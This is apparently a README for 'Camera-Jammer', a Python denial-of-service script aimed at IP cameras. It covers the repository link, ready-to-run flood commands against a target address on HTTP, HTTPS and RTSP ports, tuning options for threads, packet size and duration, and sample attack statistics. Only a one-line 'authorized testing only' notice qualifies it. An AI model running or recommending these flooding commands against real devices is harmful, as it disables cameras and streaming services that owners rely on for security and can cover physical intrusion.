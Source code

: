 
# Camera-Jammer

A script to DDoS the given target IP address.

## Features

- Multi-protocol support (TCP/UDP)
- Multi-port targeting
- Configurable packet size
- Real-time statistics
- Graceful shutdown

## Installation

```bash
git clone <[repository](https://github.com/golanpiyush/Cam-Jammer/)>
cd <project-folder>

## Usage

bash

python camjammer.py <target_ip> [options]

### Basic Examples

bash

# Basic attack on default ports (80, 554)
python camjammer.py 192.168.1.10

# Custom ports with 60-second duration
python camjammer.py 192.168.1.10 -p 80 443 554 -d 60

# High-performance mode
python camjammer.py 192.168.1.10 -t 50 -s 512 -v

### Options

-   `-p, --ports`: Target ports (default: 80 554)
    
-   `-s, --size`: Packet size in bytes (default: 1024)
    
-   `-t, --threads`: Maximum threads (default: 20)
    
-   `-d, --duration`: Attack duration in seconds
    
-   `-v, --verbose`: Enable verbose output
    

## Port Reference

-   `80`: HTTP web interface
    
-   `443`: HTTPS secure interface
    
-   `554`: RTSP video streaming
    

## Output

Real-time statistics display:

text

TCP: 1500 | UDP: 8900 | Errors: 5 | Duration: 30s

## Legal Notice

For authorized testing only. Unauthorized use is illegal.
